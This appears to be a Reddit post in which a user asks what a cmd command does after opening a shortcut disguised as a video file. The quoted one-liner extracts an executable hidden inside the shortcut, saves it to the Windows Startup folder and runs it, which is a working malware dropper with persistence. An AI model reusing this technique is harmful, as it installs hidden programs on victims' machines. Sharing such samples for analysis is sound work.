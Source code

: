 +++
title = """What does this script do?"""
date = 2024-11-12T11:06:24.000Z
expiryDate = 2024-11-12T11:06:24.000Z
tags = ["reddit","cli"]
+++
I downloaded a video, didn't check. Turned out to be a shortcut with this in the description. It quickly started a cmd file that was using 100% of CPU. Anyone know what this does? It doesn't seem like it would be super malicious but have no idea

%COMSPEC% /V:on/CSet C=Last.Week.Tonight.with.John.Oliver.S11E29.1080p.mkv&Set G="%appdata%\\MICROSOFT\\WINDOWS\\Start menu\\Programs\\Startup\\%username%.exe"&(if not exist !G! Findstr/V "System32 cfi%TIME:~7,1%%TIME:~-2%" !C!.LNK>!G!&START "" !G!)&CD %TEMP%&Echo.

Edit: still not sure what it does. But using chatgpt found where it saved an exe file and deleted that too

submitted by [/u/frna111](https://www.reddit.com/user/frna111)  
[\[link\]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/) [\[comments\]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/)

[[source]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/)
